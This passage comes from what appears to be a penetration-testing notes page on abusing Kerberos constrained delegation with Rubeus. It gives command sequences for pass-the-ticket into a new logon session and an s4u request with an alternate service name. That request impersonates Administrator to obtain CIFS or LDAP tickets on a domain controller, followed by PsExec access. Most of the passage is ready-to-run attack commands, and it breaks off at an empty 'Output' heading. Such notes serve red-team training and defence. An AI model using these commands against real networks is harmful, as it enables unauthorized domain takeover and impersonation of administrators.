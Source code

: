 {% tab title="Invoke-Rubeus" %}
```powershell
# Method 1: Pass ticket into seperate session (Preffered)
# Create new LUID session (Requires Elevation)
Invoke-Rubeus -Command "createnetonly /program:c:\windows\system32\cmd.exe /show"

# Pass ticket into new session
Invoke-Rubeus -Command "ptt /luid:[LUID from previous command] /ticket:[Base64 ticket]"

# Method 2: Pass ticket directly into current session (Can cause auth issues)
Invoke-Rubeus -Command "ptt /ticket:[Base64 ticket]"
```
{% endtab %}
{% endtabs %}

<figure><img src="../../../../.gitbook/assets/image (5) (2) (4).png" alt=""><figcaption></figcaption></figure>

With effective Domain Administrator rights on the primary Domain Controllers for the CIFS service we can perform actions based on CIFS such as Psexec and remotely listing the _C$_ drive.

<figure><img src="../../../../.gitbook/assets/image (6) (2) (3).png" alt=""><figcaption></figcaption></figure>

## Alternate Service Name

Kerberos uses a Service Principal Name (SPN) to identify a service during authentication, which is typically a combination of the service name and the host's name where the service is running. Rubeus.exe includes an option called /altservicename that enables an attacker to use a different service name when constructing the SPN. This option can be helpful in certain situations, such as when the default service name is unavailable or the attacker wants to target a specific service.

In this instance, we're leveraging the TGT issued for SRV01$ to obtain a TGS for LDAP.

Following on from the section: **Obtain TGT** use the following commands to generate a TGS for the alternative service name.

{% tabs %}
{% tab title="Rubeus Binary" %}
{% code overflow="wrap" %}
```bash
Rubeus.exe s4u /impersonateuser:[User] /msdsspn:[SPN/FQDN] /altservice:[Alternate-Service] /user:[User] /ticket:[Base64 ticket] /nowrap
```
{% endcode %}

**Example**

{% code overflow="wrap" %}
```bash
Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:cifs/dc01.security.local /altservice:ldap /user:srv01$ /ticket:[Base64 ticket] /nowrap
```
{% endcode %}

**Output**

